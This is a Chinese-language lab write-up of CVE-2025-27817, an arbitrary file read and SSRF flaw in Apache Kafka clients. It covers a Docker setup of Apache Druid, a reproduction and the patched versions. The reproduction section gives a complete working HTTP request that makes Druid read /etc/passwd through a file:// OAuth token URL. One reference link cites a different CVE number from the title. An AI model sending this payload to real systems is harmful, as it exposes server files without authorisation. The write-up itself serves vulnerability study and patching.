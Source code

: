 # Apache Kafka Clients 任意文件读取与 SSRF 漏洞 CVE-2025-27817

## 漏洞描述

Apache Kafka 客户端接受用于设置与代理服务器的 `SASL/OAUTHBEARER` 连接的配置数据，包括 `sasl.oauthbearer.token.endpoint.url` 和 `sasl.oauthbearer.jwks.endpoint.url`。Apache Kafka 允许客户端读取任意文件并将内容返回到错误日志中，或将请求发送到非预期位置。如果在应用程序中，Apache Kafka 客户端配置可由不受信任方指定，攻击者可能会使用 `sasl.oauthbearer.token.endpoint.url` 和 `sasl.oauthbearer.jwks.endpoint.url` 配置读取磁盘和环境变量中的任意内容，或向非预期位置发出请求。

参考链接：

- https://www.openwall.com/lists/oss-security/2025/06/09/1
- https://kafka.apache.org/cve-list
- https://www.cve.org/CVERecord?id=CVE-2025-27818

## 漏洞影响

```
3.1.0 <= Apache Kafka Client <= 3.9.0
```

## 环境搭建

docker-compose.yml

```
version: '2'
services:
 web:
   image: vulhub/apache-druid:25.0.0
   ports:
    - "8888:8888"
```

执行如下命令启动一个 Apache Druid 25.0.0 服务，其内部使用的 kafka-clients 版本是 3.3.1：

```
docker-compose up -d
```

服务启动后，访问 `http://your-ip:8888` 即可查看到 Apache Druid 主页。

![](images/Apache%20Kafka%20Clients%20任意文件读取与SSRF%20漏洞%20CVE-2025-27817/image-20250613161826759.png)

## 漏洞复现

读取 `/etc/passwd`：

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: your-ip:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: */*
Referer: http://your-ip:8888/unified-console.html
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Content-Type: application/json

{
  "type": "kafka",
  "spec": {
    "type": "kafka",
    "ioConfig": {
      "type": "kafka",
      "consumerProperties": {
        "bootstrap.servers": "127.0.0.1:6666",
        "sasl.mechanism": "OAUTHBEARER",
        "security.protocol": "SASL_SSL",
        "sasl.login.callback.handler.class": "org.apache.kafka.common.security.oauthbearer.secured.OAuthBearerLoginCallbackHandler",
        "sasl.oauthbearer.token.endpoint.url": "file:///etc/passwd",
        "sasl.jaas.config": "org.apache.kafka.common.security.oauthbearer.OAuthBearerLoginModule required sasl.oauthbearer.token.endpoint.url=\"http://127.0.0.1:9999/token\" sasl.oauthbearer.jwks.endpoint.url=\"http://127.0.0.1:9999/jwks\" sasl.oauthbearer.client.id=your-client-id sasl.oauthbearer.client.secret=your-client-secret sasl.oauthbearer.expected.audience=kafka sasl.oauthbearer.expected.issuer=\"http://127.0.0.1:9999\" useFirstPass=true serviceName=kafka debug=true;"
      },
      "topic": "test",
      "useEarliestOffset": true,
      "inputFormat": {
        "type": "regex",
        "pattern": "([\\s\\S]*)",
        "listDelimiter": "",
        "columns": ["raw"]
      }
    },
    "dataSchema": {
      "dataSource": "sample",
      "timestampSpec": {
        "column": "!!!_no_such_column_!!!",
        "missingValue": "1970-01-01T00:00:00Z"
      },
      "dimensionsSpec": {},
      "granularitySpec": {
        "rollup": false
      }
    },
    "tuningConfig": {
      "type": "kafka"
    }
  },
  "samplerConfig": {
    "numRows": 500,
    "timeoutMs": 15000
  }
}
```

![](images/Apache%20Kafka%20Clients%20任意文件读取与SSRF%20漏洞%20CVE-2025-27817/image-20250613162007132.png)

## 漏洞修复

更新至最新版本。自 Apache Kafka 3.9.1/4.0.0 版本起，添加了一个系统属性 `-Dorg.apache.kafka.sasl.oauthbearer.allowed.urls`，用于在 SASL JAAS 配置中设置允许的 URL。

- 在 3.9.1 版本中，为了向后兼容，它默认接受所有 URL。
- 在 4.0.0 及更新版本中，默认值为空列表，用户必须明确设置允许的 URL。

